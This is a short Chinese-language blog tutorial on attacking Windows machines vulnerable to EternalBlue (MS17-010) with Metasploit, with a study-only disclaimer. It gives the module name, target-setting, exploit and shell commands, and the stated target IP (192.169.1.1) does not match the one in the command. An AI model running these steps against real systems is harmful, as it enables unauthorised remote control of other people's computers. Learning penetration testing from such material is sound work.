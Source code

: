 ```yaml
---
title: 【笔记】攻击具有 永恒之蓝 漏洞的Windows
date: 2019-11-16 17:14:28
tags:
categories:
- 网络安全
---
```


## 前言

永恒之蓝（英语：EternalBlue）是美国国家安全局开发的漏洞利用程序，于2017年4月14日被黑客组织影子掮客泄漏。该工具利用445/TCP端口的档案分享协议的漏洞进行散播。[维基百科](https://wikipedia.hk.wjbk.site/zh-hans/永恒之蓝)

<!-- more -->

## 声明

<font color="#FF0000">本文章仅用于网络安全渗透测试学习，请勿用于其他用途</font>

## 准备工作

- 安装并配置好的 Metasploit Framework （[传送门](https://feiju12138.github.io/2019/11/16/安装配置Metasploit-Framework)）

- 一台有"永恒之蓝"漏洞的Windows电脑

## 开始攻击

- 由于本文为测试，所以默认已知被攻击的电脑ip为"192.169.1.1"

- 启动 Metasploit Framework

``` bash
msfconsole
```

![01.png](/images/20191116171428/01.png)

- 查看攻击永恒之蓝漏洞的工具

``` bash
search ms17_010
```

- 使用其中一款工具，输入"y"确认

``` bash
exploit/windows/smb/ms17_010_psexec
```

![02.png](/images/20191116171428/02.png)

- 设置目标ip

``` bash
set RHOST 192.168.1.1
```

- 开始攻击

``` bash
exploit
```

- 如果攻击成功，即可获得控制权

## 取得Shell

- 取得shell后，即可在目标电脑执行命令行操作

``` bash
shell
```

## 完成

## 参考文献

[知乎——周毅刚](https://zhuanlan.zhihu.com/p/35793142)

